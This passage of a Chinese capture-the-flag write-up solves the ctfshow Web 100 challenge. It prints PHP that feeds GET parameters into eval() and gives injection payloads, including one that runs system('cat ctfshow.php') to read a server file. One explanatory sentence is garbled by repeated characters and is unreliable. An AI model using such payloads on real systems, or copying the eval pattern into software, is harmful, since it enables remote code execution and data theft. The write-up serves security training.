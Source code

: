 | 左       | xor                                                     | 逻辑运算                |
| 左       | or                                                      | 逻辑运算                |
| 左       | ,                                                       | 很多使用                |



> **题目：（Web 100）**

```php
// Web 100

<?php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1 = $_GET['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v0 = is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if ($v0) {
    if (!preg_match("/\;/", $v2)) {
        if (preg_match("/\;/", $v3)) {
            eval("$v2('ctfshow')$v3");
        }
    }
}
?>
```

因为赋值的优先级(=)高于and所以v 0 的 值 可 以 由 v0的值可以由v0的值可以由v1来控制，所以我们需要给其赋值为1也就是true

**Payload：**

```php
?v1=1&v2=var_dump($ctfshow)&v3=;
v1=1&v2=system("cat ctfshow.php")/*&v3=*/;
```

因为源码中给了提示 ：`flag in class ctfshow;`，所以输出一个新的"ctfshow"类。

得到 flag_is_bde4fb430x2d62590x2d404f0x2dbaa30x2da2d6bd94ed98
把ox2d换成-，再套上{}即可

注意这里v3只能包含`;`，可以是多个叠加，但不能有其他字符。

**var_dump() 函数用于输出变量的相关信息。**





### 9、反射类 ReflectionClass

**（Web 101）**

反射类，做过题都是直接输出这个类`echo new ReflectionClass('类名');`
